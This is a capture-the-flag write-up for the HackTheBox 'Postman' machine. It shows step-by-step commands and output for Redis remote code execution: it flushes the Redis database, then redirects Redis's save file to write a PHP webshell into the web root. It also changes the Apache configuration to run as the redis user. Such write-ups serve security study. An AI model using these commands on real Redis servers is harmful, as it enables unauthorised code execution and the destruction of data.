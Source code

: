 	```
	root@Postman:/var/www/html# nano /etc/apache2/apache2.conf
	# These need to be set in /etc/apache2/envvars
	User redis
	Group redis
	```

5. Restart `apache2`

	```
	root@Postman:/var/www/html# sudo service apache2 restart
	```

6. `apache2` is now running as user `redis`

	```
	root@Postman:/var/www/html# ps aux | grep apache2
	root      32555  0.0  1.7 331332 16528 ?        Ss   19:24   0:00 /usr/sbin/apache2 -k start
	redis     32556  0.0  0.9 335744  9116 ?        S    19:24   0:00 /usr/sbin/apache2 -k start
	redis     32557  0.0  0.9 335744  9116 ?        S    19:24   0:00 /usr/sbin/apache2 -k start
	redis     32558  0.0  0.9 335744  9116 ?        S    19:24   0:00 /usr/sbin/apache2 -k start
	redis     32559  0.0  0.9 335744  9116 ?        S    19:24   0:00 /usr/sbin/apache2 -k start
	redis     32560  0.0  0.9 335744  9116 ?        S    19:24   0:00 /usr/sbin/apache2 -k start
	```

## TCP/6379 (Redis key-value store 4.0.9) -  RCE via Webshell 

1. Try `Redis RCE via Webshell`
	1. Create webshell

		```
		┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
		└─# echo "<?php system($_GET['c']);?>" > webshell.txt
		```

	2. Create webshell payload w/ padding 

		```
		(echo -e "\n\n"; cat webshell.txt; echo -e "\n\n") > padded_webshell.txt
		```

	3. Remove all keys in database

		```
		┌──(root💀kali)-[~/htb/postman/10.10.10.160/exploit]
		└─# redis-cli -h 10.10.10.160 flushall
		OK
		```

	4. Insert webshell onto `/var/www/html`

		```
		┌──(root💀kali)-[~/htb/postman]
		└─# redis-cli -h postman.htb
		postman.htb:6379> config set dir /var/www/html/
		OK
		postman.htb:6379> config set dbfilename redis.php
		OK
		postman.htb:6379> set test "<?php system($_GET['c']);?>"
		OK
		postman.htb:6379> save
		OK
		postman.htb:6379> 
		```
